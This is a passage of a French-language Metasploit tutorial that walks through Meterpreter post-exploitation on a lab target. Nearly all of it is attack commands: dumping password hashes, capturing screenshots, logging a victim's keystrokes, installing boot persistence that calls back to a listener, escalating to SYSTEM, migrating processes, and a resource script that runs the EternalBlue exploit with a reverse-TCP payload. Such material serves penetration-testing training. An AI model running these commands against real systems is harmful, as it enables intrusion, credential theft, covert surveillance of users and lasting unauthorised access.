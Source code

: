 ```bash
hashdump
```

⚠️ Nécessite les droits administrateur/root sur la cible.

### 📸 2️⃣ Prendre une capture d’écran

```bash
screenshot
```

### 📹 3️⃣ Keylogging (enregistrement de frappes)

```bash
keyscan_start
# Attendre un peu que la victime tape...
keyscan_dump
keyscan_stop
```

### 🧬 4️⃣ Persistance (créer un accès permanent)

```bash
run persistence -X -i 30 -p 4444 -r 192.168.56.1
```

* `-X` : démarre au boot
* `-i 30` : tente de se reconnecter toutes les 30 secondes
* `-p` et `-r` : port et IP du listener

### 🧹 5️⃣ Élever les privilèges

```bash
getuid         # Voir l’identité actuelle
getsystem      # Essaye d’obtenir les privilèges SYSTEM
```

### 🔄 6️⃣ Migrer vers un autre processus

Pour éviter la fermeture de session (ex: quitter Notepad.exe et migrer vers explorer.exe)

```bash
ps             # Lister les processus
migrate PID    # Migrer vers un PID donné
```

---

## 5. Automatiser l’exploitation + post-exploitation

Créer un **script `.rc`** contenant toutes les commandes :

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.56.101
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.56.1
set LPORT 4444
exploit
```
